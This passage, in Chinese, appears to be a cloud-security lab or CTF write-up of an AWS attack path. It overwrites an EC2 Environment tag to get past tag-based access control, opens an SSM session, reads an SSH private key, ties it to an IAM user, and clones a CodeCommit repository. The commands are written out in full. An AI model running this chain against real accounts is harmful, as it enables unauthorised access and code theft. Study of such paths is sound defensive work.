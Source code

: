 有一个EC2实例正在运行，标记为`Environment=dev`：

我们的IAM策略不允许我们通过AWS SSM Session Manager访问该实例。但是，我们确实有权限覆盖用于访问控制的`Environment`标签：

然后我们可以访问EC2实例：

```bash
$ aws ssm start-session --region us-east-1 --target i-030c2cba2ef533829

Starting session with SessionId: ec2-sandbox-manager-06e2440aa9ed6f315
# id
uid=1001(ssm-user) gid=1001(ssm-user) groups=1001(ssm-user)
```

在用户的主目录下，我们找到一个SSH私钥：

```bash
$ cd
$ cat .ssh/id_rsa
-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEApn/Tcy
...
```

通过将其指纹与账户中其他IAM用户关联的SSH公钥进行比较，我们注意到被盗的私钥属于名为`cloner`的IAM用户：

```bash
$ ssh-keygen -f .ssh/stolen_key -l -E md5
2048 MD5:be:5e:49:5e:e5:d0:66:bb:91:30:3f:66:2e:97:1a:11

$ aws iam list-ssh-public-keys --user-name cloner
{
  "SSHPublicKeys": [
    {
      "UserName": "cloner",
      "SSHPublicKeyId": "APKA254BBSGPK2B5K5YQ",
      "Status": "Active",
      "UploadDate": "2021-12-27T10:34:19+00:00"
    }
  ]
}
$ aws iam get-ssh-public-key --user-name cloner --ssh-public-key-id APKA254BBSGPK2B5K5YQ --encoding PEM --output text --query 'SSHPublicKey.Fingerprint' 
be:5e:49:5e:e5:d0:66:bb:91:30:3f:66
```

该用户恰好拥有对CodeCommit仓库的`codecommit:GitPull`权限。使用CodeCommit文档，我们可以将仓库克隆到本地机器：

```bash
chmod 700 .ssh/stolen_key
export AWS_REGION=us-east-1
sshKeyId=$(aws iam list-ssh-public-keys --user-name cloner --output text --query 'SSHPublicKeys[0].SSHPublicKeyId')

cat >> .ssh/config <<EOF
Host *.amazonaws.com
	IdentityFile ~/.ssh/stolen_key
EOF

git clone ssh://$sshKeyId@git-codecommit.$AWS_REGION.amazonaws.com/v1/repos/backend-api
```
